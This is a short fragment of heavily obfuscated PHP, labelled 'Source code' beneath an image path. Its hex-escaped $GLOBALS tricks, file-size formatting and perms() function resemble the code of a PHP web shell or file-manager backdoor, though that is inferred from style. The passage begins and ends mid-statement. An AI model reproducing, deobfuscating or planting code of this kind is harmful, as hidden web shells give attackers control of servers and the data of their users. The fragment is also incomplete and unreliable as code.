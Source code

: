 sprintf("\x251\x2e2\x66",${${"\x47\x4cO\x42A\x4cS"}["\x6cuh\x6b\x6f\x75\x6c"]}/1024)." \x4b\x42";else return${${"G\x4cO\x42ALS"}["\x67\x6c\x68o\x73\x6a\x69g\x6e"]}." B";}function perms($p){$olutpcn="\x69";$qnrvdsvpko="\x70";${"G\x4cOB\x41\x4c\x53"}["\x6c\x6d\x75\x73\x66fe\x62"]="\x69";${"\x47L\x4f\x42A\x4c\x53"}["\x76\x6d\x64\x78nx"]="\x69";${"\x47\x4c\x4fB\x41L\x53"}["\x66\x64\x66s\x6dfo\x63\x7apv"]="\x70";${"\x47L\x4f\x42A\x4cS"}["\x62p\x63\x77f\x67j\x74\x69\x6c"]="\x70";${"G\x4cO\x42A\x4cS"}["\x74\x76\x74\x6e\x69\x76rn"]="\x69";${"\x47L\x4f\x42\x41\x4c\x53"}["\x76\x71p\x6cp\x65\x79\x66x\x61"]="\x69";${"G\x4c\x4f\x42\x41\x4cS"}["\x67\x73\x72\x79l\x6a\x6a\x77b\x72"]="p";$wuujtsa="\x69";${"\x47\x4c\x4fBA\x4c\x53"}["s\